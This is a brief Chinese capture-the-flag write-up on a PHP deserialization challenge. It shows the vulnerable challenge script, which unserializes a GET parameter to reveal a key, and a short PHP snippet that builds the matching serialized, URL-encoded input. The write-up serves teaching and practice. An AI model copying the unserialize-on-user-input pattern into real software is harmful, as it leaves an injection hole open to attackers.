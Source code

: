 
# 34074 反序列化漏洞


![upload successful](/images/pasted-804.png)
```php
<?php
error_reporting(0);
include \"key4.php\";
$TEMP = \"Whatever is worth doing is worth doing well.\";
$str = $_GET['str'];
if (unserialize($str) === $TEMP)
{
    echo \"$key4\";
}
show_source(__FILE__);
```
这题代码不难看出要GET传一个字符串，反序列化之后要等于`Whatever is worth doing is worth doing well.`
我们只需要构造代码：
```php
<?php
$a=urlencode(serialize(\"Whatever is worth doing is worth doing well.\"));
echo $a;
?>
```